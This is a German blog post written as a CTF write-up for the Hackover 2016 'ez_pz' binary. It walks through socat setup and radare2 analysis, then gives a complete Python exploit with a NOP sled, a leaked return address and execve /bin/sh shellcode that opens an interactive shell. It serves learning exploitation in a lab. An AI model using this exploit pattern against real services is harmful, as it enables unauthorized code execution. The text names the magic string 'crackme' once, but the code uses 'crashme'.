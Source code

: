 ```yaml
---
title:  "Hackover 2016"
date:   2017-05-01T13:13:13+01:00
draft: false
toc: false
images:
tags:
  - untagged
---
```


Eigentlich wollte ich diesen Artikel schon Ende Oktober 2016
runterschreiben, kam aber leider noch nicht dazu. Naja, besser spät als
nie. Letzten Oktober war ich auf dem [Hackover](https://hackover.de/) in
Hannover. Dieses Mal wurde da ein phänomenales CTF vom CTF-Team des
[Hamburger CCC](https://www.hamburg.ccc.de/). Eine der Challenges möchte
ich euch nicht vorenthalten. Da der Server, der das CTF gehandlet hat
bereits abgeschaltet worden ist, muss man etwas improvisieren. Am besten
dazu eignet sich eine VM mit GNU/Linux (vorzugsweise Arch Linux
natürlich, hehe). Dann kann man die Binary nämlich getrost lokal
ausführen mit der folgenden Zeile:

`socat TCP-LISTEN:6666,bind=localhost,reuseaddr,fork EXEC:./ez_pz`

Ob alles geklappt hat kann man mit `gnu-netcat` überprüfen:

![gnu-netcat in action](storage/img/ez_pz_1.png)

Da wir einen Login-Dialog bekommen hat alles geklappt. Wir sehen etwas
ASCII-Art, ein paar Sprüche und eine Frage:"What's your Name?".
Was aber noch viel wichtiger ist, ist die Speicheraddresse die wir da
sehen (gemeint ist der Hex-String). Diese Adresse wird noch sehr
hilfreich werden. Wenn wir das ganze etwas durchprobieren merken wir,
dass sich diese Adresse immer wieder ändert. Vermutlich ist das unsere
Rücksprungsadresse. Also die Addresse zu der wir später springen müssen
um die Challenge zu beenden. Ok werfen wir einen Blick auf die binary
mit einem meiner Lieblingstools `radare2`:

![radare2 in action](storage/img/ez_pz_2.png)

Was wir hier sehen ist die `main`-function. Interessant für uns ist hier
allerdings nur der Aufruf: `call sym.chall`. `sym.header` beherbergt
anscheinend nur die Ausgabe des Headers. Diesen Part können wir also
getrost ignorieren. Schauen wir uns also mal `sym.chall` an:

![radare2 in action2](storage/img/ez_pz_3.png)

Was sofort ins Auge fällt ist folgende Zeile die nicht ins Gesamtbild
passt:

`0x080486b0      6853880408     push str.crashme ; str.crashme ; "crashme" @ 0x8048853`

Anscheinend ist dies unser Magic-String den wir treffen müssen um in die
Funktion `sym.vuln` zu springen. Ansonsten landen wir nur bei dem `nop`
in `0x080486df`. Gut schauen wir uns mal diese `sym.vuln` an. Der Name
ist ja bereits so verräterisch:

![radare2 in action3](storage/img/ez_pz_4.png)

Anscheinend handled die Application den Null-Terminator falsch. Heißt
wir können eine Eingabe machen, diese mit dem Null-Byte terminieren und
dann weiterschreiben. Alles was wir weiterschreiben wird anscheinend
direkt in den Speicher geschrieben. Anhand dieses Wissens können wir nun
einen exploit komponieren, der alle Voraussetzungen erfüllt und uns dann
eine Shell poppt. Alles was wir machen müssen ist unseren Magic-String
`crackme` zu senden, dann einen Null-Terminator, dann eine `NOP`-Sled in
die wir hereinspringen können, dann die Addresse aus dem Header mit der
wir dann wiederum zu dem Shellcode springen können der gleich hinter
einer weiteren `NOP`-sled liegt.

Das Ergebnis sieht dann mit `Python` zum Beispiel so aus:

```python
#!/usr/bin/env python2
#-*- coding: utf-8 -*-

import sys
import struct
import time
import re
import binascii
import telnetlib


t = telnetlib.Telnet("127.0.0.1", 6666)
data=""

regex = re.compile("0x[0-9a-f]{8}")

data = t.read_very_eager()
print(data)
match = regex.findall(str(data))
tmp = match[0].lstrip("0x").rstrip("\n\0")
rip = binascii.unhexlify(tmp)
print("Matched Address: ", match[0])
rip = struct.unpack(">I", rip)[0]
print("Our RIP: ", hex(rip))


shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload="crashme"            # magic-string zum crashen der application
payload+="\x00"              # Null-Terminator
payload+="\x90" * 18         # 1. Nop-sled
payload+=struct.pack("<I", rip)
payload+="\x90" * 200        # 2. Nop-sled
payload+=shellcode


t.write(payload + "\n")
while True:
  data = t.read_very_eager()
  print(data)
  input = raw_input("CMD> ")
  t.write(input + "\n")

t.close()
```

Zum Schluss muss man nur noch den richtigen Server und port eintragen
und schon poppt eine Shell auf. Voila!
